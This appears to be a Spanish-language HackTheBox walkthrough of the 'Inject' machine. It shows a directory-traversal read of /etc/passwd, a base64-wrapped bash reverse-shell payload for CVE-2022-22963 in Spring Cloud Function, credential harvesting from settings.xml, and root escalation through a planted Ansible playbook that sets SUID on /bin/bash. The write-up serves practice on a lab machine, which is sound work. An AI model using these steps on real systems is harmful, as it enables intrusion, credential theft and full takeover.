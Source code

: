 ```yaml
---
layout: default
title: Inject
parent: HackTheBox
---
```

# Inject
{: .no_toc }

## Contenidos
{: .no_toc .text-delta}

1. TOC
{:toc}

---
{:.lead}

![](/assets/img/HTB_Injection/Inject.png)

## En esta maquina veremos:
* Scan de puertos
* LFI - Local File Inclusion
* Explotando funciones CRON

### Primer paso: PORT SCANNING

Vamos a usar la herramienta nmap, ya sabemos que hay muchas combinaciones, pero me gusta usar esta por la rapidez:

```bash
sudo nmap -sS -p- 65535 --open --min-rate 5000 -vvv -n -Pn <Ip de la Maquina> -oG <Nombre del archivo que contendra la informacion>
```
Aunque tambien podemos usar:
```bash
sudo nmap -T5 <IP Maquina>
```
A estos puertos le pasaremos un scan de **reconocimiento**, pero esta vez del servicio y versiones que corren tras la pagina.
```bash
nmap -sCV -p<Puertos>
```
Como sea, obtendemos lo siguiente:
![](/assets/img/HTB_Injection/Injection-PORTS.jpeg)

Podemos ver cosas interesantes:
* El puerto 22 (Perteneciente al SSH) esta abierto.
* No se emplea un puerto 80 o un 443 para mostrar la pagina, sino, un servicio web-proxy en el puerto **8080**

Si vamos a esa puerto, podremos ver una interfaz de subida de archivos.
![](/assets/img/HTB_Injection/Injection-UI.jpeg)

Si es que subimos un archivo **test**, por ejemplo, nos dejara buscar por un paramentro:

```http
http://<IP>:8080/show_image?img=
```
Entonces, vamos a interceptar la peticion con la herramienta **BURPSUITE**, para hacer test a ese parametro.

En este caso usaremos un LFI clasico, "../../../etc/passwd", esto para listar posibles ususarios dentro del sistema:

![](/assets/img/HTB_Injection/Injection-Burp1.jpeg)

Vemos que existe un usuario **frank** y otro usuario **phil**, pero realmente lo que ahora queremos hallar es la version del framework que usa esta aplicacion, asi que con **Burpsuite**, nos ponemos a listar los directorios, hasta toparnos con:

![](/assets/img/HTB_Injection/Injection-Burp2.jpeg)

Vemos cosas interesantes:
* Un Spring Framework
* La version usada es muy antigua (2.6.5)
Si buscamos nos toparemos con un CVE, el **CVE-2022-22963**

### CVE-2022-22963
Puedes usar la [herramienta que yo use](https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit).

Pero si vamos a fondo, este **CVE-2022-22963**, explicado de forma rapida... Emplea un fallo de implementacion, atacando una ruta en especifico **"/functionRouter"**, dentro del servicio. 
* Le carga a la cabecera: 'spring.cloud.function.routing-expression', nuestro payload (En este caso una reverse shell), y la crea en el directorio temporal de la maquina.
Y bueno el comando que le carga en cuestion es el siguiente:
```bash
bash -c {echo,' + ((str(base64.b64encode(command.encode('utf-8')))).strip('b')).strip("'") + '}|{base64,-d}|{bash,-i}
```
Donde **command** contiene nuestra reverse shell.

### Continuando:

Podemos ver que ha funcionado:
![](/assets/img/HTB_Injection/Injection-CVE.jpeg)![](/assets/img/HTB_Injection/Injection-Burp3.jpeg)

Por lo que ahora queda ponernos en escucha con la herramienta **netcat** o si queremos ahorrarnos tratar la tty, con **pwncat-cs**.
![](/assets/img/HTB_Injection/Injection-RS.jpeg)
Si vamos investigando dentro del directorio principal del usuario **frank**, vamos a toparnos con un directorio ".m2/" que contendra un archivo interesante: "settings.xml", este contendra la password del usuario **phil** (Que de igual forma podremos listar con **burpsuite**):
![](/assets/img/HTB_Injection/InjectionRS2.jpeg)

Como ya tenemos usuario y password de **phil**, simplemente ingresamos a su cuenta y solo nos quedaria usar una herramienta de reconocimiento para ver lo que sucede detras del sistema:

Podemos usar perfectamente:
```bash
ps -aux
```
O por otro lado, servirnos de la herramienta [**pspy64**](https://github.com/DominicBreuker/pspy)

![](/assets/img/HTB_Injection/Injection-PSPY.jpeg)

Y nos vamos a topar con algo interesante, hay un proceso que parece ejecutar una tarea cron, que apunta a un directorio que contiene formatos .yml

![](/assets/img/HTB_Injection/Injection-CRON.jpeg)

Asi que si vamos a es ruta, vamos a poder ver que tenemos permisos de escritura, por lo que le introducimos nuestra escalada de privilegios de la siguiente forma:

```yaml
- hosts: localhost
  tasks:
  - name: Privilege Escalation
    command: chmod u+s /bin/bash
  become: true
```
Como podemos ver, esto apunta contra el propio localhost de la maquina, y ejecuta el comando a nivel de sistema que le da permiso de ser ejecutado por el user+superuser al binario "/bin/bash".

![](/assets/img/HTB_Injection/InjectionYML.jpeg)

Acto seguido tenemos 2 opciones, esperar a la tarea **CRON**, o forzarla, si la queremos forzar, solo copiamos el comando, pero ejecutamos nuesto binario:
![](/assets/img/HTB_Injection/Injection-100.jpeg)
Como podemos ver, una vez que se ejecuta el permiso del binario cambia a **"-rwsr-sr-x"**, por lo que para escalar privilegios solo nos queda ejecutar un:
```bash
bash -p
```
## FIN
